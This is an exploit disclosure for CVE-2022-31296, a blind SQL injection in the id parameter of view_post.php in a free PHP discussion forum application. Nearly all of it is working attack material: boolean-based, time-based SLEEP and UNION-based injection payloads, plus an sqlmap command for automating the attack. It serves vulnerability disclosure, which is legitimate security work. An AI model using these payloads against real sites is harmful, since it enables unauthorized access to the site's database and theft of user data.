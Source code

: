 # CVE-2022-31296
Online Discussion Forum Site 1.0 - Blind SQL Injection

#### Exploit Title: Online Discussion Forum Site 1.0 - Blind SQL Injection
#### Date: 2022-06-13
#### CVE: CVE-2022-31296
#### Exploit Author: Abdulaziz Saad (@b4zb0z)
#### Vendor Homepage: https://www.sourcecodester.com/
#### Software Link: https://www.sourcecodester.com/php/15337/online-discussion-forum-site-phpoop-free-source-code.html
#### Version: 1.0
#### Tested on: LAMP, Ubuntu

-----

[#] Vulnerability Location:
	`$_GET['id']` in `/odfs/posts/view_post.php:3`
	
>   
    Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: p=posts/view_post&id=1' AND 8036=8036 AND 'zhKq'='zhKq
>
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: p=posts/view_post&id=1' AND (SELECT 4593 FROM (SELECT(SLEEP(5)))Tmcg) AND 'qyDN'='qyDN
>
    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: p=posts/view_post&id=-5399' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7171767671,0x5a7272534b4b78734a53464e62454b52617876484e6670665570454454526a6963626f506e45776e,0x717a707671)-- -

---

[#] Exploitation Using SQLMAP:
	`sqlmap -u "http://localhost/odfs/?p=posts/view_post&id=1" --dbms=mysql`
